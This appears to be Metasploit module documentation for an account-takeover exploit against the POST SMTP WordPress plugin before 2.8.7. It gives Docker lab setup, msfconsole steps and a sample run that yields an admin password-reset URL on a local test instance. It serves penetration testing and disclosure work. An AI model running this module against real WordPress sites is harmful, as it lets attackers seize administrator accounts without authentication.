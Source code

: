 ## Vulnerable Application

POST SMTP, a WordPress plugin,
prior to 2.8.7 is affected by a privilege escalation where an unauthenticated
user is able to reset the password of an arbitrary user. This is done by
requesting a password reset, then viewing the latest email logs to find
the associated passowrd reset email.

### Install

1. Create `wp_post_smtp_acct_takeover.docker-compose.yml` with the content:
```
version: '3.1'

services:
  wordpress:
    image: wordpress:latest
    restart: always
    ports:
      - 5555:80
    environment:
      WORDPRESS_DB_HOST: db
      WORDPRESS_DB_USER: chocapikk
      WORDPRESS_DB_PASSWORD: dummy_password
      WORDPRESS_DB_NAME: exploit_market
    mem_limit: 512m
    volumes:
      - wordpress:/var/www/html

  db:
    image: mysql:5.7
    restart: always
    environment:
      MYSQL_DATABASE: exploit_market
      MYSQL_USER: chocapikk
      MYSQL_PASSWORD: dummy_password
      MYSQL_RANDOM_ROOT_PASSWORD: '1'
    volumes:
      - db:/var/lib/mysql

volumes:
  wordpress:
  db:

```
2. `docker-compose -f wp_post_smtp_acct_takeover.docker-compose.yml up`
3. `wget https://downloads.wordpress.org/plugin/post-smtp.2.8.6.zip`
4. `unzip post-smtp.2.8.6.zip`
5. `docker cp post-smtp <wordpress_container_id>:/var/www/html/wp-content/plugins`
6. Complete the setup of wordpress
7. Enable the post-smtp plugin, select "default" for the SMTP service
  1. Complete the setup using random information, it isn't validated.
8. Update permalink structure per https://github.com/rapid7/metasploit-framework/pull/18164#issuecomment-1623744244


## Verification Steps

1. Install the vulnerable plugin
2. Start msfconsole
3. Do: `use auxiliary/admin/http/wp_post_smtp_acct_takeover`
4. Do: `set rhost 127.0.0.1`
5. Do: `set rport 5555`
6. `set ssl false`
7. `set username <username>`
8. `set verbose true`
9. `run`
10. Visit the output URL to reset the user's password.

## Options

### USERNAME

The username to perform a password reset against

## Scenarios

### Wordpress 6.6.2 with SMTP Post 2.8.6 on Docker

```
msf6 > use auxiliary/admin/http/wp_post_smtp_acct_takeover
msf6 auxiliary(admin/http/wp_post_smtp_acct_takeover) > set rhost 127.0.0.1
rhost => 127.0.0.1
msf6 auxiliary(admin/http/wp_post_smtp_acct_takeover) > set rport 5555
rport => 5555
msf6 auxiliary(admin/http/wp_post_smtp_acct_takeover) > set ssl false
ssl => false
msf6 auxiliary(admin/http/wp_post_smtp_acct_takeover) > set username admin
username => admin
msf6 auxiliary(admin/http/wp_post_smtp_acct_takeover) > set verbose true
verbose => true
msf6 auxiliary(admin/http/wp_post_smtp_acct_takeover) > run
[*] Running module against 127.0.0.1

[*] Running automatic check ("set AutoCheck false" to disable)
[*] Checking /wp-content/plugins/post-smtp/readme.txt
[*] Found version 2.8.6 in the plugin
[+] The target appears to be vulnerable.
[*] Attempting to Registering token fUefO7U12dXtb0DM on device GP3tOFuMfFErw
[+] Succesfully created token: fUefO7U12dXtb0DM
[*] Requesting logs
[*] Requesting email content from logs for ID 4
[+] Full text of log saved to: /home/mtcyr/.msf4/loot/20241029142103_default_127.0.0.1_wordpress.post_s_367186.txt
[+] Reset URL: http://127.0.0.1:5555/wp-login.php?action=rp&key=4kxMwfuvyQtcUDVrh985&login=admin&wp_lang=en_US
[*] Auxiliary module execution completed
```